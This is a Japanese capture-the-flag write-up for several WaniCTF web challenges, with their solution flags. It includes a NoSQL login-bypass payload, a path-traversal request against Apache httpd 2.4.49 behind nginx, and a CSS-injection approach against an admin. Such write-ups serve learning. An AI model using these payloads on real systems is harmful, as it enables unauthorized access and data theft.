

# WaniCTF
睡眠という名前でました。  
こういうのあるとテンション上がりますね。  

# 問題
- sourcemap
- POST Challenge
- NoSQL
- traversal
- Styled memo

# sourcemap
問題名の通りソースマップを見ると書いてある。  
`FLAG{d3v700l_c4n_r3v34l_50urc3_c0d3_fr0m_50urc3m4p}`
# POST Challenge
- `data=hoge`  ->y0u
- UA に `Mozilla/5.0` & `data=hoge` -> ar3
- `data?.hoge` なので json `{"data":{"hoge":"fuga"}}` -> http
- `fuga==null` なので json `{"hoge":1,"fuga":null}` -> p0st
- `files?.data?.md5==md5file("public/images/wani.png")` なので、wani.png を投げればよい。-> m@ster!
`FLAG{y0u_ar3_http_p0st_m@ster!}`
# NoSQL


login の部分の nosql のクエリが適切に処理されていないことと、 `app.use(express.json());`が app.js 書かれているので、 
以下のような、json を投げる
`{"username": {"$ne": null}, "password": {"$ne": null} }`
```js
router.post("/", async function (req, res) {
  const client = new MongoClient(uri);
  try {
    if (!req.body.username || !req.body.password) {
      throw "error";
    }

    await client.connect();
    const user = await client.db("nosql").collection("users").findOne({
      username: req.body.username,
      password: req.body.password,
    });
    if (!user) {
      throw "error";
    }
    //snippet
```
`FLAG{n0_sql_1nj3ction}`

# traversal
配布されたファイルの web の Dockerfile を見ると `FROM httpd:2.4.49` となっているので、最近の CVE が使えることがわかる。  
>
それに加え、nginx の config をみると、`merge_slashes off;`になっている。  
また apache の config が `DocumentRoot "/usr/local/apache2/htdocs"` であるので   
`////cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt` というパスを送る。  

`FLAG{n61nx_w34k_c0nf16_m3r63_5l45h35}`

# Styled memo

配布ファイルの `master/views.py` をみると flag が メモの content であることがわかる。  
次に css file のupload の部分をみると、css　ファイルのパスにユーザー名が含まれていることがわかる。  
これを利用して、admin に任意の css をあてることができる。  
css を利用して flag を読み取る。

このツールを使う。
https://github.com/d0nutptr/sic

`FLAG{CSS_Injecti0n_us1ng_d1r3ctory_tr@versal}`
